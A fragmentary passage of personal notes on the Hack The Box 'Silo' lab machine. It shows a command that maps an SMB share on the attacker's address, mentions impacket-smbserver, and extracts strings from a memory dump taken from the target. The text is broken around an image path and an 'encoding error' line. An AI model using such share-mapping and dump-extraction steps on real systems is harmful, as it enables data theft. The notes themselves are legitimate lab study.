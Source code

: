 
encoding error -> net use m: \\10.10.14.9\share
can also use impacket-smbserver for better logging

![](2021-01-26-14-10-44.png)



kali@kali:~/htb/boxes/silo/10.10.10.82$ ls -alh SILO-20180105-221806.dmp 
-rw-r--r-- 1 kali kali 1.0G Jan  5  2018 SILO-20180105-221806.dmp



strings SILO-20180105-221806.dmp > dump-strings.txt
